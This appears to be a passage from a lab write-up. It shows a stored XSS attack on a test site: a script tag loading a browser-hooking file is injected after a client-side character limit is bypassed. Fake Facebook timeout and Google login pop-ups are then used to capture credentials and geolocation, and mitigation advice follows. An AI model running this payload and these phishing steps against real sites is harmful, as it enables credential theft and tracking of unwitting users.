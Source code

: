    

**Deploying the Exploit**

On the Replicants Website we inject the payload `<script src="http://127.0.0.1:3000/hook.js"></script>`. Since we discovered that there is a limit of characters in the `Message*` field stating `maxlength="50"` we entered the Inspector with `Ctrl+Shift+I`- and changed the code to`maxlenght="100"` to ensure we can inject the payload [Message Element Inspector](Images/max50.png). (Replicants Website is successfully hoocked).

Now we will attempt a **Social Engineering (Pretty Theft)** attack [Social Engineering Facebook](Images/facebook.png), navigating back to the Replicants Website to verify the attack was successful [Facebook Session Timed Out](Images/facebooklogin.png).

Lets add a **Fake Notification Bar** to the attack [Notification Bar](Images/fnb.png) & verify if it was successful [Facebook Session Timed Out & Notification Bar](Images/fnb2.png).

Next we will try to get the users login credentials by creating a fake Google login pop up [Google Phishing](Images/google.png), lets enter our test credentials [Test Credentials](Images/googlelogin.png) & verify if it worked [Google](Images/googlecred.png) (Command results show **data** ).

Lastly we want to extract the Geolocation from the users [Get Geolocation (Third-Party)](Images/geo.png)



#### Mitigation

**Stored XSS**

- **Filter input on arrival.** At the point where user input is received, filter as strictly as possible based on what is expected or valid input.  If you're going to accept form inputs, validating the data to ensure it meets specific criteria will be helpful.
- **Encode data on output.** At the point where  user-controllable data is output in HTTP responses, encode the output to prevent it from being interpreted as active content. Depending on the  output context, this might require applying combinations of HTML, URL,  JavaScript, and CSS encoding.
- **Use appropriate response headers.** To prevent XSS in HTTP responses that aren't intended to contain any HTML or JavaScript, you can use the `Content-Type` and `X-Content-Type-Options` headers to ensure that browsers interpret the responses in the way you intend.
-  **Content Security Policy.** As a last line of defense, you can use Content Security Policy (CSP) to reduce the severity of any XSS vulnerabilities that still occur.
-  **Use a web application firewall (WAF).** Rules can be created on a WAF to specifically address XSS by blocking abnormal server requests. A robust WAF is a key component of your organization's security strategy, as it can also prevent SQL injection attacks, distributed denial-of-service attacks and other common threats.  Setting rules for your web applications defining how cookies are  handled can prevent XSS and even block JavaScript from accessing  cookies.                                



**Social Engineering Attacks**

- It’s important to **train your staff** so that they : Understand the consequences of social engineering attacks; Don’t open suspicious email attachments; Think before providing sensitive information (no one legitimate will ever ask you for your password, for instance); Beware of clickjacking (be suspicious of everything you click on and let your mouse hover over links to check where they’re pointing to) and many more important prevention techniques. 

- As well as training your staff, it’s important to test the effectiveness of your training measures. **Simulated phishing attacks** will give you a good idea of your employees’ susceptibility to phishing emails.
